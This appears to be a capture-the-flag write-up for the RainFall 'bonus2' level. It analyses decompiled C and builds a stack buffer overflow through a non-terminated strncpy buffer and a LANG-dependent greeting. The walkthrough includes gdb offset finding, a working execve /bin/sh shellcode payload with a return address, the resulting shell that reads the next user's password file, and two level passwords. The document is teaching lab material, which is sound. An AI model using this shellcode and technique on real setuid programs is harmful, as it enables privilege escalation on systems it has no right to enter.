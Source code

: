 # **Bonus2**

## **Analysis**

**In `main()` :**

```c
    char    str1[0x28]; // 40
    char    str2[0x20]; // 32
    char    *env;

    // 2 Arguments Needed
    if (argc != 3)
        return 1;

    // 2 strncpy, no overflow possible
    strncpy(str1, av[1], 0x28); // 40
    strncpy(str2, av[2], 0x20); // 32

    // get the env variable 'LANG'
    env = getenv("LANG");

    // Give index from LANG, 0 by default
    if (env != NULL) {
        if (memcmp(env, "fi", 2) == 0) {
            lang = 1;
        } else if (memcmp(env, "nl", 2) == 0) {
            lang = 2;
        }
    }

    // call greetuser
    greetuser(str1);
```

**In `greetuser()`:**

```c
    char str[0x48]; // 72
    
    // Concat the corresponding greeting to the str given
    if (lang == 0)
        strcpy(str, "Hello ");
    else if (lang == 1)
        strcpy(str, "Hyv\xc3\xa4\xc3\xa4 p\xc3\xa4iv\xc3\xa4\xc3\xa4 "); // 18 characters
    else if (lang == 2)
        strcpy(str, "Goedemiddag! "); // 13 characters
    strcat(str, user);

    puts(str);
```

___

## **Exploit**

We cannot overflow with the strncpy, but we can make it so str1 doesn't terminate with '\0' and continue to str2 memory,

So we can have a string of length 72

The str created in `greetuser()` has a max length of 72, so the greeting + our string of string, we can overflow up to 18 characters in this function

```
bonus2@RainFall:~$ export LANG=fi

bonus2@RainFall:~$ gdb bonus2

(gdb) run $(python -c 'print "A" * 40') $(python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz"')
...
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH

Program received signal SIGSEGV, Segmentation fault.
0x46464545 in ?? ()

 ❯ python3 offset.py 45
16
 ❯ python3 offset.py 46
20
```

Offset : 18

```
bonus2@RainFall:~$ export LANG=fi
bonus2@RainFall:~$ ltrace ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 18')
...
strncpy(0xbffff6c0, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 40)                                                                                        = 0xbffff6c0
...
```

Adress of str1 : 0xbffff6c0

**Solution:**
 * 1st Argument:
   * (40) first 40 characters of the shell_code
 * 2nd Argument:
   * (05) remaining characters of the shell_code
   * (13) offset = 18 - 5
   * (04) adress of str1, shell_code

```
bonus2@RainFall:~$ export LANG=fi
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/b"') $(python -c 'print "in/sh" + "\x90" * 13 + "\xc0\xf6\xff\xbf"')
Hyvää päivää �^�1��F�F
                      �
                       ���V
                            ̀1ۉ�@̀�����/bin/sh�����������������
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

___

*Password: 579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245*